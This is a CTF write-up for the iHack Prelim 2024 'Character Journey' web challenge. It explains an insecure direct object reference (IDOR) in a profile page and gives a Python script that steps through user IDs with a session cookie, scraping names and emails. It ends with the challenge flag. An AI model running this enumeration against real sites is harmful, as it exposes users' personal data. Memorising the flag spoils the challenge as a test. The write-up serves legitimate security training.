 ```yaml
---
title: Character Journey
description: The objective of the Character Journey CTF challenge is to find and retrieve the flag from a web application by exploiting IDOR.
date: 2024-07-28 00:00:00+0000
categories:
   - iHack Prelim 2024
   - CTF Writeup
tags:
   - Web
weight: 1     
---
```

# Character Journey CTF Challenge Writeup

## Challenge Information
- **Name**: Character Journey
- **Points**: 500
- **Category**: Web
- **Objective**: Find and retrieve the flag from a web application by exploiting vulnerabilities.

![Challenge](challenge.png)

## Solution
To solve the "Character Journey" challenge, follow these steps:

1. **Initial Exploration**:
   - Visit the web page and register for an account.
   - Upon registration, we observed that the application doesn't have notable functionality 
     - Feedback form does not actually send a POST request
     - YouTube link is quite useless 

2. **Investigating User Account Features**:
   - We then focused on the functionality of viewing your own account.
   - While exploring this feature, investigate the URL parameters and other user-specific data.

3. **Identifying the Vulnerability**:
   - Discover an Insecure Direct Object Reference (IDOR) vulnerability by manipulating user IDs in the URL (e.g., changing ID from 1 to 10).
   - Find that some URLs return base64 encoded text chunks.


        ![Found IDOR](<found IDOR.png>)



        ![Base64 Chunks](<base64 chunks.png>)

4. **Brute Force Exploration**:
   - Develop a script to automate the process of iHack Prelim 2024 user IDs from 1 to 100.
   - Run the script to extract all base64 encoded text chunks.



      ```python
      import requests
      from bs4 import BeautifulSoup

      # Function to fetch profile information for a given userId
      def fetch_profile(user_id):
          url = f"http://character-journey.ihack24.capturextheflag.io/profile.php?userId={user_id}"
          headers = {
              "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
              "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
              "Accept-Language": "en-US,en;q=0.5",
              "Accept-Encoding": "gzip, deflate, br",
              "Connection": "close",
              "Referer": "http://character-journey.ihack24.capturextheflag.io/home.php",
              "Cookie": "PHPSESSID=be6885c0ca68d30c985be4b2fee16ebd",
              "Upgrade-Insecure-Requests": "1"
          }
          response = requests.get(url, headers=headers)
          if response.status_code == 200:
              return response.text
          else:
              print(f"Failed to fetch profile for userId: {user_id} with status code: {response.status_code}")
              return None

      # Function to parse HTML and extract username and email
      def parse_profile(html_content):
          soup = BeautifulSoup(html_content, 'html.parser')
          
          # Find <p> tags that contain the Name and Email
          name_tag = soup.find('p', text=lambda x: x and x.startswith('Name:'))
          email_tag = soup.find('p', text=lambda x: x and x.startswith('Email:'))

          if name_tag and email_tag:
              # Extract the text after "Name: " and "Email: "
              name = name_tag.get_text(strip=True).split(': ', 1)[1]
              email = email_tag.get_text(strip=True).split(': ', 1)[1]
              return name, email
          else:
              print("Could not find profile information in HTML content.")
              return None, None

      # Main function to fetch profiles for userId 0-61 and save to a file
      def main():
          with open('profiles.txt', 'w') as file:
              for user_id in range(100):
                  print(f"Fetching profile for userId: {user_id}")
                  html_content = fetch_profile(user_id)
                  if html_content:
                      name, email = parse_profile(html_content)
                      if name and email:
                          file.write(f"userId: {user_id}, Name: {name}, Email: {email}\n")
                      else:
                          file.write(f"userId: {user_id}, Profile information not found\n")
                  else:
                      file.write(f"userId: {user_id}, Failed to fetch profile\n")

      if __name__ == "__main__":
          main()
      ```

5. **Extracting the Flag**:
   - Review the extracted data from the brute force script.
   - Rather than decoding the base64 text, find the flag directly in the data without further processing.



      ![Brute Force](<brute force.png>)


      ![Flag](flag.png)


6. **Flag**: **ihack24{655b7b7ae4c62d726a568eff8914573e}**